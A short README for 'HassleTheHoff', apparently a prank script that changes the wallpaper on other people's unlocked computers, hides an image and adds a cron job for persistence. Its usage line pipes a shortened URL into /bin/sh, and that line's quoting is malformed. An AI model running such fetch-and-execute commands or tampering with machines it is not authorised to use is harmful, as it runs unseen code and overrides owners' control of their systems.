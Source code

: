 # HassleTheHoff

[Hasslehoff](https://github.com/ps1337/HassleTheHoff/blob/master/res/notHasslehoff.jpg?raw=true) people failing to lock their computers:

- Download a fresh new Hasslehoff
- Hide it
- Set it as wallpaper
- Create a Cron job for the task

# Dependencies:
- `wget`/`curl`
- A supported desktop environment
- (Cron)
- ?

# Usage

```
curl "http://tiny.cc/hasslehoff | /bin/sh"
```

# Files touched

- `$HOME/.config/autostart/.tmp`: Hasslehoff image
- `crontab` of user: Entry added at bottom
